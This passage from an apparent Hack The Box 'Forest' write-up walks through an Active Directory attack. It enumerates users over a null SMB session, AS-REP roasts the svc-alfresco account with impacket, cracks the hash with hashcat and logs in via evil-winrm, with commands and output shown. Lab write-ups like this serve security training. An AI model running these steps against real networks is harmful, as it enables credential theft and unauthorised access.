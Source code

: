 ```bash
nxc smb 10.129.30.97 -u '' -p '' --users
```

We got back a few users:

```text
Administrator
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Let's note them somewhere and move on.

#### ASREPRoasting
___
Now that we have a list of users, we could try multiple things such as password spraying for example, but there are other things we could try first. For instance, let's see if among our list of users account there are some that do not require kerberos pre-authentication:

{{<code language="bash" title="ASREPRoasting using impacket-GetNPUsers">}}
impacket-GetNPUsers htb.local/ -usersfile users -format hashcat -outputfile asrep_hashes.out

Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:5f9...<SNIP>...63836d7
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
{{</code>}}

As we can see, the service account `svc-alfresco` does not require kerberos pre-authentication, hence we making it vulnerable to ASREPRoasting.

More on ASREPRoasting -> [https://www.thehacker.recipes/ad/movement/kerberos/asreproast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast)

We can now try to crack it with hashcat:

{{<code language="bash" title="Cracking service ticket">}}
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
{{</code>}}

{{<figure src="/img/htb/forest/cracked_hash_svcalfresco.png" position=center caption="svc-alfresco password cracked !">}}

Now that we have the password for `svc-alfresco`, let's try to login via winrm:

{{<code language="bash" title="Login via winrm as svc-alfresco">}}
evil-winrm -i 10.129.30.97 -u svc-alfresco -p <PASSWORD>
{{</code>}}
